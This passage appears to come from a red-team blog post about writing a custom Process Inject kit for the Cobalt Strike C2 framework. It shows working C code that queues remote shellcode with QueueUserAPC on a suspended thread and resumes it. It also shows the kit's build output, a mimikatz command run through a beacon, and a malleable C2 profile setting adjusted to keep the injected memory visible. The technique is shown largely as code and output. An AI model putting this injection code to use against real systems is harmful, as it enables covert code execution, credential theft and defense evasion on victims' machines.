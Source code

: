 ## QueueUserAPC

After creating a suspended process, allocating and copying memory into that process, we can finally perform `QueueUserAPC` against the suspended main thread of the process.

It's actually pretty easy to do. We just need to call `QueueUserAPC` against the pointer to the remote shellcode and a handle to the remote, suspended thread. We then call `ResumeThread` to allow the thread to execute our shellcode.

```c
// QueueUserAPC
DWORD queueUserApcResult = KERNEL32$QueueUserAPC(
  (PAPCFUNC)remoteBuffer,
  pi.hThread,
  0);

if (queueUserApcResult == 0) {
  BeaconPrintf(CALLBACK_ERROR, "QueueUserAPC failed.");
  return;
}

KERNEL32$ResumeThread(pi.hThread);
```

## Examining Process Memory

We can build the kit with `build.sh`, which produces a `.cna` file that we can load into our teamserver.

```plaintext
$ ./build.sh /opt/cobaltstrike/custom-inject-output
[Process Inject kit] [+] You have a x86_64 mingw--I will recompile the process inject beacon object files
[Process Inject kit] [*] Compile process_inject_spawn.x64.o
[Process Inject kit] [*] Compile process_inject_spawn.x86.o
[Process Inject kit] [*] Compile process_inject_explicit.x64.o
[Process Inject kit] [*] Compile process_inject_explicit.x86.o
[Process Inject kit] [+] The Process inject object files are saved in '/opt/cobaltstrike/custom-inject-output'
```

Since I was calling `VirtualAllocEx` with RWX memory permissions, I wanted to see what it would look like in Process Hacker to confirm that the WinAPIs were being used properly.

I ran `mimikatz standard::sleep 80000` on the beacon, since running `mimikatz` is one of the commands that uses the fork and run method.

![](https://i.postimg.cc/5ymrWvS0/beacon-na.png)

Examining the memory contents it seemed that the region had been freed.

![](https://i.postimg.cc/jds9QgRJ/process-hacker-na.png)

This was because I had the setting `cleanup` set to `true` in my malleable C2 profile, so I switched that to `false` and ran the `mimikatz` command again.
